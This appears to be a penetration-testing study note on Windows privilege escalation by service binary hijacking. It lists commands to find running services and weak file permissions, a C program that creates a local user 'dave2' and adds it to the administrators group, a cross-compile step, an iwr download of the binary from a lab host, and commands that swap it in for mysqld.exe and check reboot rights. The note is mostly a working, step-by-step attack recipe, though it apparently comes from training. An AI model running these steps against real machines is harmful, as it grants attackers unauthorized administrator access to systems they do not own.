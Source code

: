 Get windows services and their path
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

use `icacls` on windows for file permissions
```
icacls "C:\xampp\apache\bin\httpd.exe"
```

if we spot a service with misconfigured permissions
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

then cross-compile
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

and move it to the windows machine, then overwrite the original while keeping a backup
```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

to start and stop services you need to be an admin
```
net stop mysql
```

Since we do not have permission to manually restart the service, we must consider another approach. If the service Startup Type is set to "Automatic", we may be able to restart the service by rebooting the machine.

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

need to check if have permissions to restart system
```
whoami /priv
```

NOTE: the enabled/disabled only apply to the whoami process -- so just ignore it. all listed privileges are accessible by the user
